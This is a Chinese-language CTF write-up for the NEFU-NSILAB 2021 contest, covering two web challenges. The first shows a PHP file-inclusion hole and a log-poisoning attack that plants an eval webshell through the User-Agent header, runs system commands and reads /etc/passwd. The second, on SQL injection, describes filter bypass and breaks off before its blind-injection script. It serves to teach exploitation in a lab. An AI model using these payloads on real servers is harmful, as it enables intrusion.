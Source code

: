 ```yaml
---
title: NEFU-NSILAB2021选拔赛WriteUp
tags:
  - CTF
  - NEFU
  - WP
abbrlink: fdc156ff
date: 2021-11-12 11:27:23
---
```


## Web
### signin
打开看到源码:
```php
<?php
highlight_file(__FILE__);
$file = $_GET['file'];
if ($file) {
    include $file;
}
```
没有任何过滤的文件包含，尝试/根据提示进行日志包含，首先在访问时带上 `User-Agent: <?php eval($_POST[1]); ?>` 在日志里面写一句话。  
![](http://image.0error.net/202202101144500.png)
然后包含日志文件 `/var/log/nginx/access.log`，传一个 `phpinfo();` 可以看到成功 getshell。  
![](http://image.0error.net/202202101144060.png)
蚁剑连接或手动 `system('ls /');`，可以看到根目录下有一个 `flag.sh` 内容为：  

```shell
#!/bin/sh
sed -i "s/root/$FLAG/" /etc/passwd

export FLAG=not_flag
FLAG=not_flag
```
可知 `flag` 被写进了 `/etc/passwd`，打开找到 `flag`。  
![](http://image.0error.net/202202101145976.png)

### babysqli
打开看到一个登录页面，随意输入一个用户名密码，跳转到 `doLogin.php` 并提示 `Wrong password!`。根据题目名字可知是 sql 注入，在 `username` 参数后面加一个 `'` 后出现了报错。  
![](http://image.0error.net/202202101145845.png)
直接盲猜一个报错注入  
![](http://image.0error.net/202202101145909.png)
咦？怎么什么都没出来？原来是 `updatexml extractvalue floor` 都被禁用了，同理可以尝试出被禁用的还有 `= and &&`，于是就有很多解法，这里因为没有回显于是进行了一个布尔盲注，写个脚本：  
